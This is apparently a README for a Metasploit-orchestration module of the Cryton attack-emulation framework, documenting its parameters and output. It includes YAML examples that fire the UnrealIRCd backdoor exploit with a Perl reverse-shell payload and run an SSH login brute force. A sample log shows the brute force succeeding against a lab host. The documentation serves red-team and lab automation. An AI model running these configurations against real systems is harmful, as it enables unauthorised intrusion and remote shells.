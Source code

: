 # mod_msf

Module for orchestrating Metasploit Framework.

## System requirements

For this module to function properly, [Metasploit-framework](https://www.kali.org/tools/metasploit-framework/) needs to be installed.

After a successful installation of Metasploit-framework, you need to load MSFRPCD plugin. Easiest way to do this to open your terminal and run `msfrpcd` with `-P toor` to use password and `-S` to turn off SSL (depending on configuration in Worker config file). 

**Optional:**

Another option is to run Metasploit using `msfconsole` and load msgrpc plugin using this command:

````bash
load msgrpc ServerHost=127.0.0.1 ServerPort=55553 User=msf Pass='toor' SSL=true
````

This is just default, feel free to change the parameters to suit your needs, but keep in mind that they must match your worker config file.

After successfully loading the msgrpc plugin, you are all set and ready to use this module.

## Input parameters

Description of input parameters for module.

| Parameter name    | Required                                | Example value                      | Data type | Default value                                                                                | Parameter description                                                                                                                                                                                                                                                                                                                                                                     |
|-------------------|-----------------------------------------|------------------------------------|-----------|----------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `session_target`  | No                                      | 127.0.0.1                          | string    | default value is taken from Non-case sensitive `RHOSTS` or `RHOST` option in `module_optons` | IP address of the target for matching metasploit session purposes.                                                                                                                                                                                                                                                                                                                        |
| `module_type`     | Yes                                     | exploit                            | string    | -                                                                                            | Type of the msf module (valid values: `exploit`, `post`, `encoder`, `auxiliary`, `nop`, `payload`).                                                                                                                                                                                                                                                                                       |
| `module`          | Yes                                     | unix/irc/unreal_ircd_3281_backdoor | string    | -                                                                                            | Name of metasploit module.                                                                                                                                                                                                                                                                                                                                                                |
| `module_options`  | Yes                                     | {"RHOSTS": "127.0.0.1"}            | dict      | -                                                                                            | Custom dictionary with options for the given module                                                                                                                                                                                                                                                                                                                                       |
| `payload`         | Yes (only for `module_type`: `exploit`) | cmd/unix/reverse_perl              | string    | -                                                                                            | Name of the payload to use in combination with the given module.                                                                                                                                                                                                                                                                                                                          |
| `payload_options` | Yes (only with defined `payload`)       | {"LHOST": "127.0.0.1"}             | dict      | -                                                                                            | Custom dictionary with options for the given payload.                                                                                                                                                                                                                                                                                                                                     |
| `raw_output`      | No                                      | false                              | bool      | true                                                                                         | Flag whether you want to return raw output from Metasploit.                                                                                                                                                                                                                                                                                                                               |
| `wait_for_result` | No                                      | false                              | bool      | true                                                                                         | Boolean value (True or False) whether the module should be executed as background job. If False the module is executed without waiting for the job to finish. Be aware, that then the console output of the module's execution may not be fully captured. If this option is set to True, then the module waits until the job is completed and the output of the module is fully captured. |
| `module_timeout`  | No                                      | 120                                | int       | 300                                                                                          | Number of seconds to wait before the module execution will be terminated.                                                                                                                                                                                                                                                                                                                 |
| `module_retries`  | No                                      | 3                                  | int       | 1                                                                                            | Defines how many times should metasploit module try to be executed, if it didn't finish successfully until the `module_timeout`is reached.                                                                                                                                                                                                                                                |


**NOTICE: To utilize existing sessions check out the [session management](https://cryton.gitlab-pages.ics.muni.cz/cryton-documentation/latest/designing-phase/step/#session-management) feature.**

### Example with payload

```yaml
module_arguments:
  module_type: exploit
  module: unix/irc/unreal_ircd_3281_backdoor
  module_options:
    RHOSTS: CHANGE ME
    RPORT: 6697
  payload: cmd/unix/reverse_perl
  payload_options:
    LHOST: 172.28.128.3
    LPORT: 4444
  exploit_timeout_in_sec: 15
  exploit_retries: 5
```

### Example without payload

```yaml
module_arguments:
  module_type: auxiliary
  module: scanner/ssh/ssh_login
  module_options:
    RHOSTS: CHANGE ME
    USERNAME: vagrant
    PASSWORD: vagrant
```

## Output

Description of module output.

| Parameter name      | Parameter description                                                                                         |
|---------------------|---------------------------------------------------------------------------------------------------------------|
| `return_code`       | 0 - success<br />-1 - fail                                                                                    |
| `output`            | Raw output from Metasploit or any errors that can occur during module execution.                              |
| `serialized_output` | **Only available when the metasploit module creates a session.** Dictionary in form of `{'session_id': '1'}`. |

### Example
```json lines
{
  'return_code': 0, 
  'output': "VERBOSE => True\nBRUTEFORCE_SPEED => 5\nBLANK_PASSWORDS => false\nUSER_AS_PASS => false\nDB_ALL_CREDS => false\nDB_ALL_USERS => false\nDB_ALL_PASS => false\nDB_SKIP_EXISTING => none\nSTOP_ON_SUCCESS => false\nREMOVE_USER_FILE => false\nREMOVE_PASS_FILE => false\nREMOVE_USERPASS_FILE => false\nTRANSITION_DELAY => 0\nMaxGuessesPerService => 0\nMaxMinutesPerService => 0\nMaxGuessesPerUser => 0\nCreateSession => true\nAutoVerifySession => true\nTHREADS => 1\nShowProgress => true\nShowProgressPercent => 10\nRPORT => 22\nSSH_IDENT => SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3\nSSH_TIMEOUT => 30\nSSH_DEBUG => false\nGatherProof => true\nRHOSTS => 192.168.56.51\nUSERNAME => vagrant\nPASSWORD => vagrant\nDisablePayloadHandler => True\n[*] 192.168.56.51:22 - Starting bruteforce\n[+] 192.168.56.51:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant) Linux vagrant-ubuntu-trusty-64 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '\n[!] No active DB -- Credential data will not be saved!\n[*] SSH session 1 opened (192.168.56.50:36169 -> 192.168.56.51:22) at 2022-08-04 17:03:56 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n[*] Auxiliary module execution completed\n",
  'serialized_output': {'session_id': '1'} 
}

```